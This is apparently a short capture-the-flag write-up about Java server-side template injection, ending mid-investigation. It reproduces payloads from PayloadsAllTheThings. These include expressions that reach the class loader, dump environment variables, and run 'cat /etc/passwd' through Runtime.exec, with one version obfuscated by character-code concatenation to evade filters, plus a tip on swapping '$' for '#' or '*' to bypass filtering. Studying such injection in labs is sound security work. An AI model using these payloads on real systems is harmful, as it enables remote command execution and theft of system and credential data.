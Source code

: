 Look like it vulneable with character `#` and `*`.
# Exploit
Go to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) to find injection with Java. The tips is we need to use `#` or `*` to bypass the filter.

## Java

### Java - Basic injection
>Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```


### Java - Retrieve the system’s environment variables
```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

As the note at begin, we should replace the `$` with `#` or `*` to test.

We found somethings interest with `*`.
